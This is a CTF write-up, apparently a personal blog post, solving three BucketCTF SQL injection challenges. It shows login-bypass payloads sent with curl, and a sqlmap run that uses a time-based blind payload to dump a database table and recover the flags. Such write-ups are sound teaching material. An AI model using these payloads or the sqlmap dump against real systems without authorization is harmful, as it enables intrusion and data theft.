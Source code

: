 ```yaml
---
author: "Asad Ullah"
title: "SQLi 1, 2, 3  - BucketCTF"
description: 
summary: Write-up on web sql injections easy, medium and hard.
date: 2023-04-10T05:04:24+05:00
Section: write-ups
categories:
- writeup
- web
- ctftime.org

tags:
- bucketctf
- sqli
- payload
- blind sqli

draft: True

---
```


&nbsp;


## Web - SQLi - 1

{{< 
ctftime 
name="SQLi - 1" 
difficulty="Easy"  
points="200"
category="web"
>}}

&nbsp;

### Description

This is my first time using SQL. Its such a great and simple tool.

### Approach

I attempted several payloads, but ultimately, this one worked: `' or 1=1--`

```bash
┌──(kali㉿iasad)-[~/CTFs/BucketCTF]
└─$ curl -d "userName=' or 1=1--&password=' or 1=1--" 213.133.103.186:7763/login

bucket{s1mp13_sq11_ed0176a}
```

![Untitled](/write-ups/ctftime/bucket/sqli-1.webp)

&nbsp;

---

**Flag: `bucket{s1mp13_sq11_ed0176a}`**

---

&nbsp;

&nbsp;

## Web - SQLi - 2

{{< 
ctftime 
name="SQLi - 2" 
difficulty="Medium"  
points="200"
category="web"
>}}

&nbsp;

### Description

Ok I upgrade my security by preventing you from using semicolons. A StackOverflow thread told me that would work.

### Approach

Again, I attempted several payloads but found success with this one: `' OR 1 -- -`

```bash
┌──(kali㉿iasad)-[~/CTFs/BucketCTF]
└─$ curl -d "userName=' OR 1 -- -&password=' OR 1 -- -" 213.133.103.186:5900/login

bucket{m3d1um_sq11_693f79541}
```

![Untitled](/write-ups/ctftime/bucket/sqli-2.webp)

&nbsp;

---

**Flag: `bucket{m3d1um_sq11_693f79541}`**

---

&nbsp;

&nbsp;

## Web - SQLi - 3

{{< 
ctftime 
name="SQLi - 3" 
difficulty="Hard"  
points="290"
category="web"
>}}

&nbsp;

### Description

Finally! I moved the secret into a **COMPLETELY** different table. There is **NO** way you can find it now.

### Approach

After attempting some payloads manually without success, I used `SQLmap` and successfully retrieved the flag. The database was `MySQL` and the parameters were vulnerable to `blind SQL Injection`

&nbsp;

***Breakdown of options in the SQLmap command***

- **`-u`** specifies the target URL to be scanned.
- **`-data`** provides the POST data to be sent with the request.
- **`-p`** indicates the parameters to be tested for SQL injection.
- **`-method`** specifies the HTTP method used for the request.
- **`-dump`** dumps the contents of the database after a successful SQLi attack.

```bash
┌──(kali㉿iasad)-[~/CTFs/Tools/sqlmap-dev]
└─$ python3 sqlmap.py -u "http://213.133.103.186:6409/login" --data "userName=1&password=2" -p "userName,password" --method POST --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.4.6#dev}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal.
[*] starting @ 15:35:20 /2023-04-10/

[15:35:21] [INFO] resuming back-end DBMS 'mysql' 
[15:35:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: userName (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=1' AND (SELECT 5012 FROM (SELECT(SLEEP(5)))lPED) AND 'eyGp'='eyGp&password=2
---
[15:35:21] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[15:35:21] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[15:35:21] [INFO] fetching current database
[15:35:22] [INFO] resumed: railway
[15:35:22] [INFO] fetching tables for database: 'railway'
[15:35:22] [INFO] fetching number of tables for database 'railway'
[15:35:22] [INFO] resumed: 2
[15:35:22] [INFO] resumed: Flag
[15:35:22] [INFO] resumed: Users
[15:35:22] [INFO] fetching columns for table 'Flag' in database 'railway'
[15:35:22] [INFO] resumed: 2
[15:35:22] [INFO] resumed: id
[15:35:22] [INFO] resumed: value
[15:35:22] [INFO] fetching entries for table 'Flag' in database 'railway'
[15:35:22] [INFO] fetching number of entries for table 'Flag' in database 'railway'
[15:35:22] [INFO] resumed: 1
[15:35:22] [WARNING] (case) time-based comparison requires larger statistical model, please wait.............................. (done)                       
[15:35:38] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[15:36:39] [INFO] adjusting time delay to 2 seconds due to good response times
bucket{j01
[15:37:31] [ERROR] invalid character detected. retrying..
[15:37:31] [WARNING] increasing time delay to 3 seconds
n5_m4k3_n0_53
[15:38:58] [ERROR] invalid character detected. retrying..
[15:39:30] [ERROR] invalid character detected. retrying..
[15:39:30] [WARNING] increasing time delay to 6 seconds
n53_a5ed15}
[15:42:30] [ERROR] invalid character detected. retrying..
[15:42:30] [WARNING] increasing time delay to 8 seconds


[*] ending @ 15:47:24 /2023-04-10/
```

The flag was printed in pieces due to time-based SQL injection attack.

&nbsp;

---

**Flag: `bucket{j01n5_m4k3_n0_53n53_a5ed15}`**

---

&nbsp;

&nbsp;

